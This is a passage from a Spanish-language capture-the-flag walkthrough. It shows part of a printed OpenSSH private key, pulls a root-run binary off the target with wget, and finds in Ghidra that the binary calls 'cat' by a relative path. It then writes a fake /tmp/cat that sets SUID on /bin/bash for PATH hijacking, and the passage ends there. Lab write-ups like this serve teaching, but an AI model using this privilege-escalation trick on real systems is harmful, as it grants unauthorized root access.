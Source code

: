 ```
Ua47n1yGWSWMVaZ55ob3N/F9czHg0C18qWjcOh8YBrgGGnZn1r0n1uHovBevMghlsgy/2w
pmlMTtfdUo7JfEKbZmsz3auih2/64rmVp3r0YyGrvOpWuV7spnzPNAFUCjPTwgE2RpBVtk
WeiQtF8IedoMqitUsJU9ephyYqvjRemEugkqkALBJt91yBBO6ilulD8Xv1RBsVHUttE/Jz
bu4XlJXVeD10ooFofrsZd/9Ydz4fx49GwtjYnqsda0rBAAAAgGbx1tdwaTPYdEfuK1kBhu
3ln3QHVx3ZkZ7tNQFxxEjYjIPUQcFFoNBQpIUNOhLCphB8agrhcke5+aq5z2nMdXUJ3DO6
0boB4mWSMml6aGpW4AfcDFTybT6V8pwZcThS9FL3K2JmlZbgPlhkX5fyOmh14/i5ti7r9z
HlBkwMfJJPAAAAgQDPt0ouxdkG1kDNhGbGuHSMAsPibivXEB7/wK7XHTwtQZ7cCQTVqbbs
y6FqG0oSaSz4m2DfWSRZc30351lU4ZEoHJmlL8Ul6yvCjMOnzUzkhrIen131h/MStsQYtY
OZgwwdcG2+N7MReMpbDA9FSHLtHoMLUcxShLSX3ccIoWxqAwAAAIEAzdgK1iwvZkOOtM08
QPaLXRINjIKwVdmOk3Q7vFhFRoman0JeyUbEd0qlcXjFzo02MBlBadh+XlsDUqZSWo7gpp
ivFRbnEu2sy02CHilIJ6vXCQnuaflapCNG8MlG5CtpqfyVoYQ3N3d0PfOWLaB13fGeV/wN
0x2HyroKtB+OeZEAAAANYWxleGlhQGhvbW1pZQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

Vemos que nos esta mostrando un `id_rsa` pero sera el mismo que utilizamos para meternos en la maquina, por lo que vamos a pasarnos el binario a nuestra maquina `host` y decompilarlo con la herramienta `ghidra`:

```shell
python3 -m http.server
```

En la maquina `host` haremos lo siguiente:

```shell
wget http://<IP_VICTIM>:8000/showMetheKey
```

Una vez que lo tengamos dentro, abriremos la herramienta `ghudra` crearemos un proyecto nuevo e importaremos el binario `showMetheKey` para verlo en `C#`, si nos vamos a la funcion `main` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (359).png" alt=""><figcaption></figcaption></figure>

Vemos que se esta ejecutando como `root` de forma interna y que esta leyendo simplemente la `id_rsa` del usuario con el que nos hemos metido, pero vemos un fallo y es que utiliza `cat` con una ruta `relativa` y no `absoluta` encima podemos ejecutarlo como el usuario `root` por lo que podremos realizar una tecnica llamada `PATH hijacking/binary hijacking`, por lo que haremos lo siguiente:

Vamos a crear un script que ponga permisos `SUID` a la `bash` de la siguiente forma:

```shell
nano /tmp/cat

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
echo "Permisos establecidos de forma correcta!"
```
